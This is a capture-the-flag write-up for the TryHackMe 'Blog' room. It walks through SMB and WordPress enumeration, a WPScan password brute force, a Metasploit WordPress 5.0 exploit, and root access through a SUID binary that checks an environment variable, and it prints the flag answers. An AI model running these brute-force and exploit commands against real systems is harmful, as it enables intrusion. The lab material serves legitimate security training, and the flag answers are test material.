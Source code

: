 
>Room URL: https://tryhackme.com/r/room/blog
>IP Address: 10.10.36.56

# Enumeration

Run a port scanning and found out there are 4 ports opened.
- ==22, 80, 139, 445==

![[nmap-scan.png]]

Perform SMB enumeration since the port is opened with `smbclient` and found out that it has sharename called `BillySMB`.

![[smb-enum.png]]

So login with the sharename and there are 3 files inside it. Use `get/mget` to download those files. However, when using `steghide` to crack those file and it showing rabbit hole.

![[smb-access.png]]

Now, try do navigate to http://10.10.36.56/ will show that the webpage is using WordPress CMS. So, try to use `WPScan` for the enumeration.
- 2 username is found: ==kwheel==, ==bjoel==

```bash
└─$ wpscan --url http://blog.thm -e 
```

![[wp-username.png]]

We can also navigate to http://blog.thm/wp-json/wp/v2/users 

![[web-username.png]]

# Brute Force

With the 2 username we can perform a brute force with `WPScan` again. `kwheel`'s password is found.
- Username: ==kwheel==
- Password: ==cutiepie1==

```bash
└─$ wpscan --url http://blog.thm -u kwheel, bjoel -P /usr/share/wordlists/rockyou.txt  
```

Login into WordPress with `kwheel` credentials and play around with the webpage. Based on the image below, found out that the WordPress version is 5.0.

![[wp-dashboard.png]]

# Exploitation

Run `msfconsole` and search for exploit related to WordPress version 5.0 and run it to gain the meterpreter session.

```bash
msf6 > search wordpress 5.0
msf6 > use 0
msf6 > set RHOSTS 10.10.36.56
msf6 > set USERNAME kwheel
msf6 > set PASSWORD cutiepie1
msf6 > exploit
```

![[msfconsole.png]]

Now find for the user.txt file but it not the flag.

![[shell.png]]

# Privileges Escalation

Lets start with a common technique for PrivEsc by looking got the `SUID` bit set.

```bash
# 1st method
$find / -perm -4000 2>/dev/null

#2nd method
$find / -perm -u=2 -type f 2>/dev/null
```

We'll found `/usr/sbin/checker` with SUID being set but it shows that we are not admin when try to launch it. So, what we can do it to investigate the binary the binary in more details by using `ltrace / strace`.

Based on the `ltrace` output, it appears that the only check the application does is to check an environmental variable called admin for a value, lets test this theory by adding a value to the admin environmental variable `export admin=1`.
- Check for `id` and we able to gain the root access.

![[suid-check.png]]

Search for the `user.txt`.

```bash
find / -type f -name user.txt

cat /media/usb/user.txt
```

![[user.txt.png]]

Search for the `root.txt`.

```bash
find / -type f -name root.txt

cat /root/root.txt
```

![[root.txt.png]]

# Answer

1. root.txt
>9a0b2b618bef9bfa7ac28c1353d9f318**

2. user.txt
>c8421899aae571f7af486492b71a8ab7

3. Where was user.txt found?
>/media/usb

4. What CMS was Billy using?
>Wordpress

5. What version of the above CMS was being used?
>5.0